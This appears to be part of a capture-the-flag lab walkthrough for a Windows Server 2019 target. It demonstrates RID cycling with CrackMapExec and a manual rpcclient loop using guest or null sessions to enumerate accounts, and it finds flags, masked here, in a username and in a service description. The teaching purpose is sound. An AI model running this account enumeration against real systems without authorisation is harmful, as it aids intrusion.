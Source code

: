 ```bash
# Automated RID cycling with CrackMapExec
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 192.168.148.101 -u guest -p '' --rid-brute
```

**Output**:
```
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E [*] Windows Server 2019 Standard 17763 x64
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E [+] WIN-TIP7RVRBJ8E\guest: 
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E [+] Brute forcing RIDs
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E 500: WIN-TIP7RVRBJ8E\Administrator (SidTypeUser)
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E 501: WIN-TIP7RVRBJ8E\Guest (SidTypeUser)
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E 1000: WIN-TIP7RVRBJ8E\admin (SidTypeUser)
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E 1001: WIN-TIP7RVRBJ8E\FLAG{M******8} (SidTypeUser)
```

**🎯 FLAG 2 FOUND**: FLAG{M******8} - Username itself is the flag!

**Why RID Cycling?**: Windows assigns Relative Identifiers (RIDs) sequentially. By trying RIDs 500-2000, we can find accounts even if they're hidden from normal enumeration.

#### Manual RID Cycling for Learning

```bash
# Manual RID cycling to understand the process
for i in {500..1500}; do
    rpcclient -U "" -N 192.168.148.101 \
    -c "lookupsids S-1-5-21-X-X-X-$i" 2>/dev/null | grep -v unknown
done
```

**Understanding SIDs and RIDs**:
- SID (Security Identifier): Unique identifier for a security principal
- RID (Relative Identifier): Last part of the SID, unique within the domain
- Administrator is always RID 500, Guest is 501, regular users start at 1000

### FLAG 20: Service Description Enumeration

**Location**: WeakPermService description  
**Difficulty**: Easy  
**Learning Objective**: Windows service enumeration and security

After gaining initial access (covered in Phase 4), enumerate services:

```powershell
# List all services with detailed information
Get-Service | Format-List *

# Query specific service
sc qdescription WeakPermService
```

**Output**:
```
[SC] QueryServiceConfig2 SUCCESS

SERVICE_NAME: WeakPermService
DESCRIPTION: Weak Permission Service - FLAG{D************2}
```
